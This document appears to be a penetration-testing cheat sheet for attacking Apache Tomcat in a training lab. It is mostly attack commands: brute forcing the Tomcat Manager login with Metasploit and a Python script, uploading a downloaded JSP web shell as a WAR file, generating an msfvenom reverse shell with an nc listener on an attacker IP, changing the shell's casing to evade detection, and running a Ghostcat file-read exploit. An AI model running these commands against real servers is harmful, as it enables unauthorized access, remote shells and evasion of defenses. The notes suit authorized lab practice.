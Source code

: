 If we can access the /manager or /host-manager endpoints, we can likely achieve remote code execution.

## Tomcat Manager - Login Brute Forcing

**Msfconsole
```
sudo msfconsole
use scanner/http/tomcat_mgr_login
set VHOST web01.inlanefreight.local
set RPORT 8180
set stop_on_success true
set rhosts 10.129.201.58
show options
run
```

**Python script
https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce
```
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```


## Tomcat Manager - WAR File Upload

1. Enter credentials at http://web01.inlanefreight.local:8180/manager/html
2. Upload this JSP web shell: https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```
3. Click deploy
4. Browse to /backups and it should be in there
```
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```
5. Delete WAR file by undeploying once done and report the location of the upload (/opt/tomcat/apache-tomcat-10.0.10/webapps)

**Msfvenom to Generate WAR File
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
nc -lnvp 4443
```

**Msfconsole module
https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/

**Lightweight JSP web shell to evade detection
https://github.com/SecurityRiskAdvisors/cmd.jsp
Change this to evade:
```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```
```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```


## CVE-2020-1983: Ghostcat
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
```
nmap -sV -p 8009,8080 app-dev.inlanefreight.local
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 
```
- Can only read files in current directory
